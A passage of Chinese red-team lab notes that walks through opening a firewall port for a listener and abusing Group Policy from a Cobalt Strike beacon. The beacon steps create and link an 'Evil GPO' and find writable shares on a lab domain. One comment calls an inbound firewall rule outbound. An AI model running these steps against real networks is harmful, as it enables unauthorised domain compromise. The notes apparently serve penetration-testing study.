 注意监听的端口是否在靶机上运行出站


使用```netsh```命令允许防火墙让4444端口出站
```
netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444
```

删除上面的出站规则
```
netsh advfirewall firewall delete rule name="Allow 4444" protocol=TCP localport=4444
```

# Remote Server Administration Tools (RSAT)

RSAT(Remote Server Administration Tools)是 是 Microsoft 提供的一个管理组件，期中GroupPolicy 模块具有多个可用于管理 GPO 的 PowerShell cmdlet，包括

- New-GPO：创建一个新的空 GPO。
- New-GPLink：将 GPO 链接到站点、域或 OU。
- Set-GPPrefRegistryValue：在计算机或用户配置下配置注册表首选项。
- Set-GPRegistryValue：在计算机或用户配置下配置一个或多个基于注册表的策略设置。
- Get-GPOReport：生成 XML 或 HTML 格式的报告。


检查是否安装了GroupPolicy 模块
```
Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
```

安装GroupPolicy 模块，需要本地管理员权限
```
Install-WindowsFeature –Name GPM
```

创建一个空的GPO，并且链接到指定的OU上
```
beacon> getuid
[*] You are DEV\jking

beacon> powershell New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"

GpoId       : d9de5634-cc47-45b5-ae52-e7370e4a4d22
DisplayName : Evil GPO
Enabled     : True
Enforced    : False
Target      : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Order       : 4
```

查找靶机可写入文件夹
```
beacon> powershell Find-DomainShare -CheckShareAccess

Name           Type Remark              ComputerName
----           ---- ------              ------------
software          0                     dc-2.dev.cyberbotic.io
```
